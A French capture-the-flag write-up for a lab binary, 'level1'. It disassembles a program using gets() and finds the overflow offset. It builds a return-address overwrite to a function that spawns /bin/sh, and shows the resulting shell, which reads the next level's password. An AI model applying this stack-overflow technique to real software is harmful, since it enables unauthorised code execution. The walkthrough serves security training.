 # Level1

On observe un executable a la racine `level1`

```bash
$ ./level1
Hello World

$ python -c 'print "A"*100' | ./level1
Segmentation fault (core dumped)
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:   push   ebp
   0x08048481 <+1>:   mov    ebp,esp
   0x08048483 <+3>:   and    esp,0xfffffff0
   0x08048486 <+6>:   sub    esp,0x50
   0x08048489 <+9>:   lea    eax,[esp+0x10]
   0x0804848d <+13>:  mov    DWORD PTR [esp],eax
   0x08048490 <+16>:  call   0x8048340 <gets@plt>
   0x08048495 <+21>:  leave
   0x08048496 <+22>:  ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level1`

```bash
$ scp -P 4242 -r level1@192.168.56.102:/home/user/level1/level1 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level1
```

_resultat sauvegarde dans [source.md](source.md)_

On peut remarquer que `undefined auStack80 [76]`, on peut essayer de remplir la place qu'y nous etes aloue

```bash
$ python -c 'print "A"*75' | ./level1

$ python -c 'print "A"*76' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*77' | ./level1
Illegal instruction (core dumped)

$ python -c 'print "A"*78' | ./level1
Segmentation fault (core dumped)
```

- `python -c 'print "A"*75'` est notre taille aloue maximum

- `python -c 'print "A"*76'` et `python -c 'print "A"*77'`, on ecrit pardessus EBP sauvegarde

- `python -c 'print "A"*78'`, on ecrit pardessus EIP

On remarque aussi, grace a `Cutter` qu'il y a une fonction `run` bien pratique colle a main qui fait un appel a `/bin/sh`

```bash
run ();
0x08048444      push    ebp
0x08048445      mov     ebp, esp
0x08048447      sub     esp, 0x18
0x0804844a      mov     eax, dword [stdout]
0x0804844f      mov     edx, eax
0x08048451      mov     eax, str.Good..._Wait_what
0x08048456      mov     dword [stream], edx
0x0804845a      mov     dword [nitems], 0x13
0x08048462      mov     dword [size], 1
0x0804846a      mov     dword [esp], eax
0x0804846d      call    fwrite
0x08048472      mov     dword [esp], str.bin_sh
0x08048479      call    system
0x0804847e      leave
0x0804847f      ret

int main (int argc, char **argv, char **envp);
0x08048480      push    ebp
0x08048481      mov     ebp, esp
0x08048483      and     esp, 0xfffffff0
0x08048486      sub     esp, 0x50
0x08048489      lea     eax, [s]
0x0804848d      mov     dword [esp], eax
0x08048490      call    gets
0x08048495      leave
0x08048496      ret
0x08048497      nop
```

On a une porte d'entre, plus une clef. Plus qu'a rassembler tout ca en meme temps

```bash
$ python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

_Hmm..._

Le programme se ferme avant que l'on ai le temps de faire quoi que ce soit.

Mais grace a `cat`, nous avons un moyen de retarder la fermeture de `level1`

```bash
$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Ctrl+D
Segmentation fault (core dumped)

level1:$ su level2
Password:

level3:$
```
